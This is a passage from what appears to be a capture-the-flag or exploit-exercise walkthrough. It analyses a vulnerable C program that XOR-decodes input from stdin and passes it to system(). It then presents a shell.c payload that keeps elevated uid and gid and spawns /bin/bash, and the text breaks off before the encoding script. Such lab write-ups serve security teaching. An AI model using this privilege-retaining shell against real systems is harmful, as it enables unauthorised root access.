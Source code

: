 ```c
          if(pink <= 0) {
              err(1, "fread fail(blue = %d, length = %d)", blue, length);
          }
          write(fd, buf, pink);

          blue -= pink;
      }

      mem = mmap(NULL, length, PROT_READ|PROT_WRITE, MAP_PRIVATE, fd, 0);
      if(mem == MAP_FAILED) {
          err(1, "mmap");
      }
      process(mem, length);
  }

}
```

We are told that there are two ways of completing this level. In the main
function, we see two branches that executes the `process()` function which
contains a `system()` function call.

We first look at the branch that gets executed when `Content-Length` is more
than or equals to 1024.

We see that this branch essentially gets a random file, writes the content of
`stdin` into the file, `mmap`'s the file content into a `char` array that is
passed into the `process()` function. The process function then decodes the
`char` array before passing it into the `system()` function call.

The decoding scheme in `process()` involves XORing each character in sequence
with a key value. The inital key value is derived from the value of
`Content-Length` and each subsequent key is derived by subtracting the output
of the `XOR` operating from the existing key. Knowing this, we can easily write
a script to do the correct encoding of the command.

First we prepare our `shell.c`.

```c
#include <stdlib.h>
#include <unistd.h>

int main(int argc, char **argv, char **envp) {
  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/bin/bash");
}
```
